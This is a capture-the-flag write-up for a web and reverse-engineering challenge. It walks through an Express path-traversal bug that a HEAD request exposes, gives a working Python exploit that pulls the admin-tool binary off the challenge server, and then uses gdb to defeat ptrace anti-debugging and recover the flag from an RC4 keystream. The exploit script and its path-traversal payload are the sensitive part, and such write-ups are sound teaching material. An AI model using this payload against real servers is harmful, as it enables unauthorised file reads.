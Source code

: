# Journey: Chapter II (web/re, 384+31 pts, 5 solves)

The source of `admin.html` suggests that we are after an `admin-tool` binary:
```html
<div style="margin-top: 20px">
    Don't forget to practice remembering your Security Key PIN code with the ./admin-tool tool!
</div>
```

An arbitrary file read would be nice. One endpoint is interesting in this regard:
```javascript
app.get('/share', async function (req, res) {
    if (!req.session.username)
        res.send({ err: 'not logged in' })
  
    const favList = favDb.get(req.session.username)
    if (!favList || favList.length === 0)
        res.send({ err: 'favorites list is empty' })

    const result = {}
    for (const favPath of favList) {
        const [type, name] = path.relative(CONTENT_DB_PATH, favPath).split(path.sep)
        result[type] = result[type] || {}
        result[type][name.replace(".txt", "")] = fs.readFileSync(`${CONTENT_DB_PATH}/${type}/${name}`, "latin1")
    }
    const favId = crypto.randomBytes(8).toString("hex")
    await db.put(`fav_${favId}`, result)
    favDb.set(req.session.username, [])
    res.send({ favId })
})
```

Note that, even though the database stores paths, the endpoint deconstructs
the path manually, and then assembles it back together. Let's take a closer
look at how the paths get inserted into the database.

```javascript
app.get('/favorite', async function (req, res) {
    if (!req.session.username)
        res.send({ err: 'not logged in' })

    const { type, name, unfav } = req.query
    if (type !== "book" && type !== "quote")
        res.send({ err: 'invalid type' })

    if (name.includes("/") || name.includes(".."))
        res.send({ err: 'invalid name' })

    const itemPath = `${CONTENT_DB_PATH}/${type}/${name}.txt`
    if (!fs.existsSync(itemPath))
        res.send({ err: 'not found' })
      
    const favs = favDb.get(req.session.username) || []
    if (unfav)
        favs = favs.filter(x => x !== itemPath)
    else    
        favs.push(itemPath)
      
    favDb.set(req.session.username, favs)
    res.send({ success: true })
})
```

Damn, path traversal is detected and rejected. Except... does `res.send`
end the execution of the function? A quick local test says no, so the checks
are merely a red herring! So let's send a request with `name` set to
`../../admin-tool/x`! One `..` to exit the `quote` directory, and another to
escape `db`. `path.relative` will remove the `quote/../` part, and subsequent
code will trim the path to the first 2 components: `../admin-tool`. This avoids
the `.txt` extension.

Except... it doesn't work: `{"err":"favorites list is empty"}`.

A bit more local testing suggests that `res.send` can only be called once, and
subsequent calls will raise an exception, complaining that "the headers can
only be sent once". This means that, while we may bypass the `name` check,
`existsSync` will still prevent us from injecting the path.

We brainstormed abusing various weird filesystem behaviors, as `path.relative`
does not access the filesystem and thus doesn't know about symbolic links such
as `/proc/self/cwd`. This seems to have been a dead end.

At this point, I decided to dive into the code of `express` to look for a way
of bypassing the exception, and soon stumbled upon a hint:
```javascript
if (req.method === 'HEAD') {
  // skip body for HEAD
  this.end();
} else {
  // respond
  this.end(chunk, encoding);
}
```
It turns out that sending a HEAD request will allow us to bypass the check, though
the snippet above doesn't seem to be directly responsible for it. This lets us
fetch the `admin-tool` binary:

```python
from requests import Session
from uuid import uuid4
s = Session()
rando = str(uuid4())
print(s.post("http://journey.ctf.spamandhex.com/register", json={"password": rando, "username": rando}).content)
print(s.post("http://journey.ctf.spamandhex.com/login", json={"password": rando, "username": rando}).content)
data = {
    "type": "quote",
    "name": "../../admin-tool/x",
}
print(s.head('http://journey.ctf.spamandhex.com/favorite', params=data).content)
fav = s.get("http://journey.ctf.spamandhex.com/share").json()['favId']
print(fav)
data = (s.get('http://journey.ctf.spamandhex.com/favorites?type=..&favId=' + fav).json())
open('admin-tool', 'wb').write(data['admin-tool'].encode('latin1'))
```

A few minutes in the disassembler show that
1. The binary attempts to detect the debugger with PTRACE_TRACEME
2. Our input is encrypted with RC4 or a derivative, and ciphertexts are compared.
   The key is fixed.

I have first attempted to use a Python implementation of RC4, but the decryption
failed. I have decided that it would be more productive to extract the keystream
from the running program with gdb.

```
(gdb) b ptrace
Breakpoint 1 at 0x4005c0
(gdb) r
Starting program: /home/kuba/spamandhex/admin-tool
Journey: PIN Recovery Tool

  "All journeys have secret destinations of which the traveler is unaware."

                                                                    - Martin Buber

PIN recovery: I will tell if you still know the correct PIN or not, so you won't forget it even if you don't use it regularly. That's a great way of recovery I think!


Breakpoint 1, 0x00007ffff7eff210 in ptrace ()
   from /gnu/store/1y7g7kj3zxg2p90g692wybqh9b6gv7q2-glibc-2.31/lib/libc.so.6
(gdb) fin
Run till exit from #0  0x00007ffff7eff210 in ptrace ()
   from /gnu/store/1y7g7kj3zxg2p90g692wybqh9b6gv7q2-glibc-2.31/lib/libc.so.6
0x0000000000400976 in ?? ()
(gdb) x/10i $rip
=> 0x400976:    cmp    $0xffffffffffffffff,%rax
   0x40097a:    jne    0x40098f
   0x40097c:    lea    0x1e5(%rip),%rdi        # 0x400b68
   0x400983:    callq  0x400570 <puts@plt>
   0x400988:    mov    $0x1,%eax
   0x40098d:    jmp    0x400994
   0x40098f:    mov    $0x0,%eax
   0x400994:    pop    %rbp
   0x400995:    retq
   0x400996:    push   %rbp
(gdb) p $rax
$1 = -1
(gdb) set $rax=0
(gdb) b *0x400a62
Breakpoint 2 at 0x400a62
(gdb) c
Continuing.
What's your PIN? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x0000000000400a62 in ?? ()
(gdb) x/32xb 0x602160
0x602160:       0x65    0xbe    0xb8    0x98    0x7b    0x9e    0xf7    0xf9
0x602168:       0x07    0xf6    0x07    0x75    0xa9    0x94    0x44    0x62
0x602170:       0xfc    0x9e    0x47    0x41    0x9d    0x8d    0xa4    0x0f
0x602178:       0x13    0x86    0x17    0x3b    0x3f    0x82    0x82    0x69
(gdb) dump memory stream.bin 0x602160 0x602200
```

```python
binary = open('admin-tool', 'rb').read()
stream = open('stream.bin', 'rb').read()

cipher = binary[0x20c0:]
cipher = cipher[:0x70]

out = bytearray()
for b,k in zip(cipher, stream):
    out.append(b^k^65)
print(out)
# bytearray(b'SaF{It is good to have an end to journey toward; but it is the journey that matters, in the end.-2xzB4tW3}\x80G\x12\xf8{a')
```

**Post-CTF addendum:** While preparing this write-up, I have provided too few `A`
characters in the input, which resulted in the flag decryption stopping too
early. No problem&mdash;I thought&mdash;I'll just do it again.

```
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
```

To my surprise, this resulted in a completely different keystream. I soon realized
that this must be because the breakpoint is already there when the program is starting.
After all, breakpoints are implemented by overwriting an opcode with `int3`.

The culprit is an entry in the `.init_array` section:

![Binary Ninja screenshot because copy-paste is wonky](init_array.png)

I noticed this function during the CTF, but the code looked like decompiled
`/dev/urandom` at a glance, and [the XREF panel was empty](https://github.com/Vector35/binaryninja-cloud-public/issues/123), so I concluded that it's probably a false positive.

However, further analysis reveals that it checksums most of the code section
and derives an address from the checksum, which is then patched with a `xor`.

![](init_array_graph.png)

Checking with gdb, we see that the address being patched is `0x400902`. This
corresponds to an `add` instruction in the RC4 code, which this xor turns into
a `sub`. The following change in the decoding script makes it decrypt the flag
properly without the dumped keystream:

```diff
-        K = S[(S[i] + S[j]) % 256]
+        K = S[(S[j] - S[i]) % 256]
         yield K
```

I'm quite surprised, and to be honest, somewhat disappointed, that I didn't get
to experience this mischief during the CTF.

